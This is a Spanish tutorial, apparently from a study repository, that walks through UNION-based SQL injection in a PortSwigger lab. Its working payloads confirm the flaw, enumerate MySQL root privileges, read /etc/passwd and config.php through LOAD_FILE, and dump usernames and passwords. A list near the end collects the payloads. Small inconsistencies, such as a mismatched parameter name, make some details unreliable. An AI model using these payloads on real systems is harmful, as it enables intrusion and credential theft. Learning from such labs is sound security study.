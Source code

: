 # Guía práctica: SQL Injection para enumeración y lectura de archivos

##  Introducción

En este documento examinaremos de forma práctica y didáctica las vulnerabilidades en bases de datos SQL —conocidas como **inyecciones SQL (SQLi)**—. Las inyecciones SQL consisten en la inserción de consultas o comandos maliciosos en puntos de entrada de una aplicación web, aprovechando validaciones insuficientes para alterar la lógica de ejecución en sistemas de gestión de bases de datos como [Mariadb](../SQL/Mariadb) o [SQLite3](../SQL/SQLite3/). Cuando estas técnicas se aplican en entornos de producción web, pueden permitir desde la exfiltración de información sensible hasta la modificación no autorizada del comportamiento de la aplicación, afectando la confidencialidad, integridad y disponibilidad de los datos. Para ampliar el contexto teórico y práctico, consulta la sección general sobre [Bases de datos](../../Bases%20de%20datos/).

Objetivos de este capítulo:

- Entender qué es una inyección SQL y cómo se explota.

- Identificar vectores típicos y entradas vulnerables en aplicaciones web.


---

## Laboratorio Portswigger

Para ilustrar con ejemplos realistas vamos a seguir el laboratorio gratuito de [Portswigger](https://portswigger.net/web-security/all-labs)

Todas las pruebas se realizaron en la URL:

```url
https://web-security-academy.net/filter?category=Gifts)
```

---

## 1. Confirmación de la vulnerabilidad

**Acción:**

Comprobamos que el parámetro `port_code` es vulnerable inyectando un UNION SELECT.

```sql
' UNION SELECT 1,2,3,4-- -
````

**Explicación:**

Si la inyección tiene éxito, la página mostrará los valores `2`, `3` y `4` en la tabla. Esto confirma que:

- La aplicación concatena directamente el valor en una consulta SQL.
    
- El número de columnas es 4.
    
- Podemos continuar con otras inyecciones más complejas.
    

---

## 2. Comprobar privilegios del usuario `root` en MySQL

### 2.1. Comprobar si tiene el privilegio `SUPER`

```sql
' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

**Explicación:**

- `super_priv` = 'Y' indica que el usuario puede realizar acciones avanzadas en MySQL.
    
- Esto puede incluir cargar archivos o modificar configuraciones.
    

---

### 2.2. Enumerar todos los privilegios de `root@localhost`

```sql
' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

**Explicación:**

Esta consulta muestra todos los privilegios otorgados explícitamente a `root@localhost`, por ejemplo:

```
SELECT, INSERT, UPDATE, FILE, CREATE
```

Si el usuario tiene `FILE`, puedes leer archivos con `LOAD_FILE()`.

---

## 3. Leer archivos del sistema con `LOAD_FILE()`

### 3.1. Leer `/etc/passwd`

```sql
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

**Explicación:**

Nos permite confirmar acceso al sistema de archivos. Muestra usuarios del sistema Linux.

---

### 3.2. Leer el archivo fuente `search.php`

```sql
' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

**Explicación:**

Este archivo es la propia aplicación vulnerable. Puede revelar:

- Cómo se construye la query SQL.
    
- Si hay includes/requires a otros archivos.
    

---

### 3.3. Leer `config.php` para obtener credenciales

```sql
' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

**Explicación:**

Este archivo suele contener las **credenciales de conexión a MySQL**, como:

```php
$db_user = "root";
$db_pass = "toor123";
```

Esto te permite conectarte directamente a la base de datos desde consola o herramientas como `sqlmap`.

---

## Otras queries útiles para SQLi (bonus)

### Obtener versión de MySQL

```sql
' UNION SELECT 1, @@version, 3, 4-- -
```

### Listar todas las bases de datos

```sql
' UNION SELECT 1, schema_name, 3, 4 FROM information_schema.schemata-- -
```
Al ejecutar esta query, en el laboratorio de ejemplo de Portswigger vemos algo así:

**Query realizada**

![Captura](./Imágenes/web_1.png)

**Bases de datos existentes**

![Captura](./Imágenes/web_2.png)

### Listar tablas de una base de datos

```sql
' UNION SELECT 1, table_name, 3, 4 FROM information_schema.tables WHERE table_schema='nombre_base_datos'-- -
```

### Listar columnas de una tabla

```sql
' UNION SELECT 1, column_name, 3, 4 FROM information_schema.columns WHERE table_name='nombre_tabla'-- -
```

### Extraer usuarios de una tabla `users`

```sql
' UNION SELECT 1, username, password, 4 FROM users-- -
```

---

## Resumen de payloads usados

```sql
1. ' UNION SELECT 1,2,3,4-- -
2. ' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
3. ' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
4. ' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
5. ' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
6. ' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

---

## Conclusión

Este tipo de explotación SQLi permite:

- Confirmar la vulnerabilidad.
    
- Enumerar privilegios y configuraciones internas.
    
- Robar archivos del sistema.
    
- Escalar a control completo de la base de datos.
    

Una vez que obtienes credenciales, puedes avanzar hacia una **conexión directa**, pivotar o buscar vulnerabilidades adicionales.

---
